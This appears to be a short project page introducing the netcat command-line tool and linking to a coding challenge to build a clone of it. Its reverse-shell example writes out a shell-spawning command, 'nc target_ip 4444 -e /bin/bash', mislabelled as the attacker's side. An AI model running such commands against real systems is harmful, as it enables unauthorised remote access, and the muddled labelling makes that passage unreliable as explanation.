 ```yaml
---
title: "Build Your Own netcat Command Line Tool"
description: "This project is to build a clone of the netcat (nc) Unix command line tool."
tags: [unix, cli]
categories: [command line tools]
ShowToc: true
TocOpen: true
---
```


Netcat is a command-line utility used for network debugging, testing, and exploration. It allows users to read from and write to network connections using TCP or UDP protocols.

<!--more-->

### Key Features:
1. **Port Scanning**: Can scan for open ports on a target system.
2. **Data Transfer**: Facilitates simple data transfer between systems.
3. **Connection Testing**: Tests connectivity and simulates client-server communication.
4. **Listening on Ports**: Acts as a server by listening on specified ports.
5. **Shell Access**: Enables remote command execution by creating reverse or bind shells.
6. **Supports IPv4 and IPv6**: Works with modern and legacy IP protocols.

### Common Use Cases:
1. **Debugging Network Issues**: Check if a specific port is open or accessible.
   ```bash
   nc -zv example.com 80
   ```
2. **File Transfer**: Transfer files between systems.
   Sender:
   ```bash
   nc -l 1234 < file.txt
   ```
   Receiver:
   ```bash
   nc sender_ip 1234 > file.txt
   ```
3. **Creating a Simple Chat**: Two users can communicate by connecting to each other using netcat.
4. **Reverse Shell**: Useful in penetration testing.
   Listener:
   ```bash
   nc -lvp 4444
   ```
   Attacker:
   ```bash
   nc target_ip 4444 -e /bin/bash
   ```

Netcat is a great tool for network administrators and security professionals due to its simplicity and versatility.

[Build your own netcat](https://codingchallenges.fyi/challenges/challenge-netcat) is available with a project breakdown on [Coding Challenges](https://codingchallenges.fyi/).